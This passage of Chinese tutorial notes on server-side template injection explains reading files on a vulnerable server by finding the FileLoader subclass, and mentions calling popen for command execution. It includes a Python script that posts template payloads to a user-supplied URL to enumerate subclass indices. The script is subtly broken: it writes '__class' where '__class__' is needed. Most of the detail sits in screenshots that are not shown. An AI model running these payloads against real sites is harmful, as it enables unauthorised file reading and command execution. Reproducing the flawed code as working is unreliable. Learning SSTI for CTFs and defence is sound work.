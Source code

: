 

或者直接调用popen函数（不加载内嵌函数），如下图



![](https://cdn.nlark.com/yuque/0/2025/png/54428404/1744568869349-0fdf40c0-b846-44db-83d9-78a81a685021.png)



## SSTI常用注入模块
### 文件读取
查找子类_frozen_importlib_external.FileLoader



该函数可以进行文件读取



python脚本：



POST提交"name"的值，通过for循环查找所需字符串的编号



'name'具体写什么看网页源代码



![](https://cdn.nlark.com/yuque/0/2025/png/54428404/1744654458003-d26313c3-337e-472d-b426-3e4d57692275.png)



```plain
import requests
url= input("请输入URL链接：")
for i in range(500):
  data = {"name": "{{().__class.__base__.__subclasses__()["+str(i)+"]}}"}
  try:
    response = requests.post(url,data=data)
    #print(response.text)
    if response.status_code == 200:
      if'_frozen_importlib_external.FileLoader' in response.text:
        print(i)
  except :
    pass
```



![](https://cdn.nlark.com/yuque/0/2025/png/54428404/1744654731211-8f7149d4-02ef-462e-a8e8-1c51f3a9ec64.png)



注意get_data第一个参数为0



![](https://cdn.nlark.com/yuque/0/2025/png/54428404/1744654937191-a571426c-b7dc-4817-888a-97144653fa95.png)
